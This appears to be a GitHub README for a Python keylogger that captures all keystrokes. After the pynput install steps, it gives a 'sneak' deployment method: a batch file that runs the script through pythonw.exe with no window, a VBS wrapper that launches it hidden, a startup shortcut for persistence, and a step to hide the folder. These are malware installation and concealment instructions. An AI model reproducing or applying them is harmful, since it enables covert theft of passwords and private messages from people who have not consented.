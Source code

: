 
# Key Logger

A basic key logger which will captures all the detail typed by physical Keyboard
## Tech Stack

 Python 


## Installation

Open Terminal

```bash
python3 -m pip install --upgrade pip
```
Check the pip version
```bash
pip --version
```
If version is showing you're good to go.  


Necessary pip modules 

```bash
pip install pynput

```
Check whether modules are installed properly or not
```bash
pip show pynput

```
If the details are showing you've installed all the necessary modules
## Setup

To deploy this project in a sneak way follow the instructions

### Create a bat file

Copy the below snippet and make changes as said

```bash
@echo off
pythonw.exe "C:\path\to\your\keylogger.py"

```
Save as ```logger.bat```

### Create a vbs script file

Copy the below snippet and make changes as said

```bash
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run "C:\path\to\your\keylogger.bat", 0, False

```
Save as ```logger.vbs```

### Add it to Startup apps 

Press ```WIN + R```

Create a shortcut file for ```logger.vbs```

All that remains now is to hide the original folder.
